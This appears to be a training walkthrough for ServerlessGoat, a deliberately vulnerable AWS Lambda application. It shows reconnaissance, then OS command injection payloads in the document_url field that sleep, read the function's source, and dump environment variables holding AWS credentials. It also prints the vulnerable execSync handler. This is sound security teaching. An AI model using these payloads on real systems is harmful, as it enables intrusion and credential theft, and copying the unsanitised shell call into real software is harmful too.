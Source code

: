 ## ServerlessGoat: Lessons ##

### Lesson 1: Information Gathering ###
We begin our journey into serverless security by gathering some reconnaissance on the application. At first sight malicious users won't know that they are facing a serverless application.

#### Option 1 #### 
If the application is exposed through AWS API Gateway, the URL might have the following format:
https://{string}.execute-api.{region}.amazonaws.com/{stage}/...

#### Option 2 ####
If the application is exposed through AWS API Gateway, HTTP Response headers might contain header names such as: `x-amz-apigw-id`, `x-amzn-requestid`, `x-amzn-trace-id`

#### Option 3 ####
If the developer left unhandled exceptions and verbose error messages, these messages might contain sensitive information, which points to the fact that this is an AWS Lambda serverless application. Try to invoke the API of the convert form, using an HTTP get request, and without the `document_url` parameter in the Query string:

https://eqfh35ixqj.execute-api.us-east-1.amazonaws.com/Prod/api/convert

This will generate the following stack trace:
```
TypeError: Cannot read property 'document_url' of null
at log (/var/task/index.js:9:49)
at exports.handler (/var/task/index.js:25:11)
```
Looking at the stack trace, we see that the application is located in the /var/task directory, which is where AWS Lambda stores and executes your Lambda function. We also see `exports.handler`, which is a very common way to name serverless functions (i.e. the function name is `handler`, and it is defined inside `index.js`).

### Lesson 2: Reverse Engineering The Lambda Function ###
The next obvious step, is to try and gain access to the source code of the Lambda function, in order to reverse engineer and discover additional weaknesses. For this step, we will try to check whether the function is vulnerable to OS command injection.

We will blindly probe for OS command injection using a common time-based probing method - i.e. by invoking the sleep shell command.

In the URL field, enter the following value in the URL field: `https://www.puresec.io/hubfs/document.doc` - this will return the converted text. Now try the following: `https://www.puresec.io/hubfs/document.doc; sleep 1 #` and hit 'submit'. The function will run, albeit will return some garbled text. Next, we will try with a really long sleep value, which will force the function to hit the timeout configured: `https://www.puresec.io/hubfs/document.doc; sleep 5000 #`

Error message: ```{"message": "Internal server error"}```

Now we know that the application is vulnerable to OS command injection through the `document_url` parameter, and we can move on to extract its source code, by sending the following value in the URL field: `https://foobar; cat /var/task/index.js #`

This should return the source code of the function:
```
const child_process = require('child_process'); const AWS = require('aws-sdk'); const uuid = require('node-uuid'); async function log(event) { const docClient = new AWS.DynamoDB.DocumentClient(); let requestid = event.requestContext.requestId; let ip = event.requestContext.identity.sourceIp; let documentUrl = event.queryStringParameters.document_url; await docClient.put({ TableName: process.env.TABLE_NAME, Item: { 'id': requestid, 'ip': ip, 'document_url': documentUrl } } ).promise(); } exports.handler = async (event) => { try { await log(event); let documentUrl = event.queryStringParameters.document_url; let txt = child_process.execSync(`curl --silent -L ${documentUrl} | ./bin/catdoc -`).toString(); // Lambda response max size is 6MB. The workaround is to upload result to S3 and redirect user to the file. let key = uuid.v4(); let s3 = new AWS.S3(); await s3.putObject({ Bucket: process.env.BUCKET_NAME, Key: key, Body: txt, ContentType: 'text/html', ACL: 'public-read' }).promise(); return { statusCode: 302, headers: { "Location": `${process.env.BUCKET_URL}/${key}` } }; } catch (err) { return { statusCode: 500, body: err.stack }; } };
```

There's a lot to be learned from the source code:
* The application uses the AWS DynamoDB NoSQL database
* The application uses a Node.js package called node-uuid
* The application stores sensitive user information (IP address and document URL) inside the DynamoDB table, who's name is defined in the `TABLE_NAME` environment variable
* We see the cause for the OS command injection - using untrusted user input in the `child_process.execSync()` call
* The output of API invocations is stored inside an S3 bucket, which is also stored inside an environment variable - `BUCKET_URL`

### Lesson 3: Digging For Gold Inside Environment Variables ###
Let's grab the data from the environment variables by running the `env` command - in the URL field, type: `https://foobar; env #`

{Partial Values}
```
AWS_SESSION_TOKEN=XXXXXXXXXXXXX
TABLE_NAME=aws-serverless-repository-serverless-goat-Table-1VK68UY2F6FLM
AWS_SECRET_ACCESS_KEY=XXXXXXXXXXXXX
BUCKET_NAME=aws-serverless-repository-serverless-goat-bucket-138sx06nsyqvs
AWS_ACCESS_KEY_ID=XXXXXXXXXXXXX
```

## To be continued... ##
